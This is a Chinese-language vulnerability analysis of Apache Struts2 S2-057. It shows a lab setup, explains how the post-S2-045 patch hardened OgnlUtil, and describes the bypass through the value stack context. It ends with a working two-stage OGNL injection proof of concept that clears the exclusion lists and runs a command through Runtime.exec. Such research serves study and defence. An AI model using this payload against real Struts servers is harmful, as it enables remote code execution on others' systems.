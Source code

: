 # S2-057分析

### 环境

搭建环境搞了一波心态，根据网上所说的有五种ServletActionRedirectResult/ActionChainResult/PostbackResult/PortletActionRedirectResult/ServletUrlRenderer，毕竟只是分析OGNL的绕过所以随便选了最后一个，这里单独记录下得了，要开启struts.mapper.alwaysSelectFullNamespace，还有注意下面的`../`必须要加(感觉正常情况下谁这样写代码)

```xml
<constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
<package name="S2-001" extends="struts-default">
  <action name="login" class="com.test.s2001.action.PageAction">
    <result name="success">../index.jsp</result>
  </action>
</package>
```

PageAction

```java
public class PageAction extends ActionSupport {
    public PageAction() {
    }

    public String execute() throws Exception {
        return "success";
    }
}
```

测试一波像这样就算搭建成功了

![](img/1.png)

### 相较s2-045的patch

1. 对属性excludedPackageNames、excludedClasses、excludedPackageNamePatterns 使用了 `Collections.unmodifiableSet()` 将这几个属性赋值成为了不可修改的 SET，用于防止对OgnlUtil 属性的清空，因此s2-045当中clear操作明显就不适用了

![](img/2.png)

同时在之前基础上又删除了`#context`的获取

```java
public Object put(Object key, Object value) {
  Object result;
  if (RESERVED_KEYS.containsKey(key)) {
    if (key.equals("this")) {
      result = this.getCurrentObject();
      this.setCurrentObject(value);
    } else if (key.equals("root")) {
      result = this.getRoot();
      this.setRoot(value);
    } else if (key.equals("_traceEvaluations")) {
      result = this.getTraceEvaluations() ? Boolean.TRUE : Boolean.FALSE;
      this.setTraceEvaluations(OgnlOps.booleanValue(value));
    } else if (key.equals("_lastEvaluation")) {
      result = this.getLastEvaluation();
      this._lastEvaluation = (Evaluation)value;
    } else if (key.equals("_keepLastEvaluation")) {
      result = this.getKeepLastEvaluation() ? Boolean.TRUE : Boolean.FALSE;
      this.setKeepLastEvaluation(OgnlOps.booleanValue(value));
    } else {
      if (!key.equals("_typeConverter")) {
        throw new IllegalArgumentException("unknown reserved key '" + key + "'");
      }

      result = this.getTypeConverter();
      this.setTypeConverter((TypeConverter)value);
    }
  } else {
    result = this._values.put(key, value);
  }

  return result;
}
```

### 绕过

所以我们明确了限制条件，

一是不能使用#context去获取context对象，但是也是可以从其他地方获取，比如网上目前提到的

- 通过 request 中值栈的 context 属性：`#request['struts.valueStack'].context`
- 通过 attr 作用域当中保存的 context 对象操作：`#attr['com.opensymphony.xwork2.util.ValueStack.ValueStack'].context` 或者 `#attr['struts.valueStack'].context`

二是OgnlUtil当中的excludedClasses/excludedPackageNamePatterns/excludedPackageNames等使用了Collections.unmodifiableSet导致不可以使用clear方法清空，但是我们可以通过ognlUtil.setXXX('')直接进行修改，毕竟虽然不能修改但是我可以覆盖呗

```java
public void setExcludedPackageNamePatterns(String commaDelimitedPackagePatterns) {
    Set<String> packagePatterns = TextParseUtil.commaDelimitedStringToSet(commaDelimitedPackagePatterns);
    Set<Pattern> packageNamePatterns = new HashSet();
    Iterator i$ = packagePatterns.iterator();

    while(i$.hasNext()) {
        String pattern = (String)i$.next();
        packageNamePatterns.add(Pattern.compile(pattern));
    }

    this.excludedPackageNamePatterns = Collections.unmodifiableSet(packageNamePatterns);
}
```

因此poc也不难

```
(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))

(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -na Calculator'))
```


